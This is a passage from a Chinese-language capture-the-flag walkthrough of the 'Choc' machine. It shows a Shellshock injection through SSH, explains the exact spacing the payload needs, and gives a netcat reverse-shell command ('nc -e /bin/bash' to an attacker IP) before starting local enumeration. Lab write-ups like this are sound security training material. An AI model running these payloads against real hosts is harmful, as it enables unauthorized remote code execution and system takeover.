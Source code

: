 ```bash
```

不行哦，看一下啥情况，发现还不能看调试信息。。。看下版本号，是不是有啥漏洞：`OpenSSH 7.9p1`，突然想到有没有可能是`shellshock`漏洞，利用自定义的函数环境变量骗过服务器：

```bash
┌──(kali㉿kali)-[~/temp/Choc]
└─$ ssh carl@$IP -i id_rsa '() { :;};whoami'   


##############################
#                            #
#       Welcome to my SSH !  #
#       Carl.                #
#                            #
##############################


carl
```

**注意：一个空格都不能错！！！！**

- **`()`后的空格**：标识函数定义的开始，触发 Bash 将其解析为函数而非普通字符串。

- **{ 后的空格**：分隔函数体起始符号与内部命令（此处为占位符:）。

  若缺少任意空格（如`'(){:;};'`），Bash 可能忽略函数定义，仅视为普通环境变量

尝试反弹shell！！！！！

```bash
┌──(kali㉿kali)-[~/temp/Choc]
└─$ ssh carl@$IP -i id_rsa '() { :;};nc -e /bin/bash 192.168.10.102 1234'
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506142329095.png" alt="image-20250614160812061" style="zoom:50%;" />

## 提权

### 信息搜集

```bash
(remote) carl@choc:/home/carl$ ls -la
total 40
drwxr-xr-x 5 carl carl 4096 Apr 20  2021 .
drwxr-xr-x 5 root root 4096 Apr 18  2021 ..
lrwxrwxrwx 1 root root    9 Apr 20  2021 .bash_history -> /dev/null
-rw-r--r-- 1 carl carl  220 Apr 18  2021 .bash_logout
-rw-r--r-- 1 carl carl 3526 Apr 18  2021 .bashrc
drwx------ 3 carl carl 4096 Apr 18  2021 .gnupg
drwxr-xr-x 3 carl carl 4096 Apr 18  2021 .local
-rw-r--r-- 1 carl carl  807 Apr 18  2021 .profile
drwx------ 2 carl carl 4096 Apr 20  2021 .ssh
-rw-r--r-- 1 carl carl 1067 Apr 18  2021 troll.txt
-rw------- 1 carl carl   52 Apr 18  2021 .Xauthority
(remote) carl@choc:/home/carl$ cat troll.txt 




        ███████╗ █████╗ ██╗██╗     ███████╗██████╗     ██╗      ██████╗ ██╗     
        ██╔════╝██╔══██╗██║██║     ██╔════╝██╔══██╗    ██║     ██╔═══██╗██║     
        █████╗  ███████║██║██║     █████╗  ██║  ██║    ██║     ██║   ██║██║     
        ██╔══╝  ██╔══██║██║██║     ██╔══╝  ██║  ██║    ██║     ██║   ██║██║     
        ██║     ██║  ██║██║███████╗███████╗██████╔╝    ███████╗╚██████╔╝███████╗
        ╚═╝     ╚═╝  ╚═╝╚═╝╚══════╝╚══════╝╚═════╝     ╚══════╝ ╚═════╝ ╚══════╝

```